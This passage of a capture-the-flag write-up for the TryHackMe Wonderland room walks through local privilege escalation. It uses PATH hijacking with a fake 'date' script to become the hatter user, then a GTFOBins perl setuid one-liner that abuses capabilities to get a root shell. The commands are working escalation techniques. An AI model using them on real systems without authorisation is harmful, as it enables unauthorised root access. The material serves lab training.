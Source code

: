![Setting $PATH variable](/assets/images/thm_wonderland/thm_wonderland_rabbit_4.jpg)

Insert the folloing code into the date script.
```bash
#!/bin/bash
/bin/bash
```

Change its file permissions to be able to execute.

```bash
chmod +x /tmp/date
```

Finally execute the teaParty binary file and you should be the user **hatter** now. If you check the hatter's home directory you will find a password.txt file which is the hatters SSH key that you can use to log into his account via SSH.

![Rabbit to hatter](/assets/images/thm_wonderland/thm_wonderland_rabbit_5.jpg)

### Stage 3 - hatter to root

Remember that perl capabiliies we found earlier using linpeas script. Lets try to see if the **hatter** user can run perl, which it seems like he can.

If you visit the following [GTFO link](https://gtfobins.github.io/gtfobins/perl/#capabilities) you will find a command we can use to escalate our privileges to root.

* Tip - This is a great article that explains capabilities and how to exploit them: [Linux privilege escalation using capabilities](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)

```
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

![Perl Capabilities privilege escalation](/assets/images/thm_wonderland/thm_wonderland_hatter_1.jpg)
